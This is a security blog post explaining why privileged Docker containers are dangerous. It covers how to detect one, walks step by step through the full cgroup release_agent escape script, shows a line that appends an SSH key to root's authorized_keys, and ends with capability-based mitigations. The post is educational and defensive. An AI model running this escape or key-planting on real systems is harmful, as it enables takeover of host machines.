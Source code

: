 ```yaml
---
title: "Escaping Docker Privileged Containers"
categories:
  - System Security
---
```


Why you should not run Docker with the "privileged" flag.

Privileged Docker containers are containers that are run with the `--privileged` flag. Unlike regular containers, these containers have root privilege to the host machine.

Privileged containers are often used when the containers need direct hardware access to complete their tasks. However, privileged Docker containers can enable attackers to take over the host system. Today, let's look at how attackers can escape privileged containers.

## Finding an Exploitable Container

But how can we tell if we are in a privileged container in the first place?

### How can you tell if you're in a container?

cgroups stands for "control groups." It is a Linux feature that isolates resource usage and is what Docker uses to isolate containers. You can tell if you are in a container by checking the init process' control group at `/proc/1/cgroup`. If you are not located inside a container, the control group should be `/`. On the other hand, if you are inside a container, you should see `/docker/CONTAINER_ID` instead.

### How can you tell if a container is privileged?

Once you've determined that you are in a container, you need to determine if that container is privileged. The best way to do this is to run a command that requires the `--privileged` flag and see if it succeeds.

For example, you can try to add a dummy interface by using an `iproute2` command. This command requires the `NET_ADMIN` capability, which the container would have if it is privileged:

```bash
$ ip link add dummy0 type dummy
```

If this command runs successfully, you can conclude that the container has the `NET_ADMIN` capability. `NET_ADMIN` is part of the privileged capabilities set, and containers that don't have it are not privileged. You can clean up the `dummy0` link after this test by running this command:

```bash
ip link delete dummy0
```

## Container Escape

So how do you escape a privileged container? By using this script. This example and PoC were taken from the [Trail of Bits Blog](https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/). Read the original post for a more detailed explanation of the PoC:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x

echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent

echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd

sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

This PoC works by exploiting cgroup's `release_agent` feature.

After the last process in a cgroup exits, a command used to remove abandoned cgroups runs. This command is specified in the `release_agent` file and it runs as root on the host machine. By default, this feature is disabled and the `release_agent` path is empty.

This exploit runs code through the `release_agent` file. We need to create a cgroup, specify its `release_agent` file, and trigger the `release_agent` by killing all the processes in the cgroup. The first line in the PoC creates a new group:

```bash
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
```

The next line enables the `release_agent` feature:

```bash
echo 1 > /tmp/cgrp/x/notify_on_release
```

Then, the next few lines write the path of our command file to the `release_agent` file:

```bash
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
```

We can then start writing to our command file. This script will execute the `ps aux` command and save it to the `/output` file. We also need to set the script's execute permission bits:

```bash
echo '#!/bin/sh' > /cmd
echo "ps aux > $host_path/output" >> /cmd
chmod a+x /cmd
```

Finally, trigger the attack by spawning a process that immediately ends inside the cgroup that we created. Our `release_agent` script will execute after the process ends. You can now read the output of `ps aux` on the host machine in the `/output` file:

```bash
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

You can use the PoC to execute arbitrary commands on the host system. For example, you can use it to write your SSH key to the root user's `authorized_keys` file:

```bash
cat id_dsa.pub >> /root/.ssh/authorized_keys
```

## Mitigation

How can you prevent this attack from happening? Instead of granting containers full access to the host system, you should give containers the individual "capabilities" they need.

Docker capabilities give developers granular control over the permissions of a container. Capabilities break down the permissions usually packaged into "root access" into individual permissions.

By default, Docker drops all capabilities of a container and requires capabilities to be added. You can drop or add capabilities with the `cap-drop` and `cap-add` flags.

```bash
--cap-drop=all
--cap-add=LIST_OF_CAPABILITIES
```

For example, instead of granting a container root access, you can grant it the `NET_BIND_SERVICE` capability if it needs to bind to a port lower than 1024. This flag will grant the container those capabilities:

```bash
--cap-add NET_BIND_SERVICE
```

## Conclusion

If possible, avoid running Docker containers with the `--privileged` flag. Privileged containers might allow attackers to break out of the container and gain control over the host system. Grant containers individual capabilities with the `--cap-add` flag instead.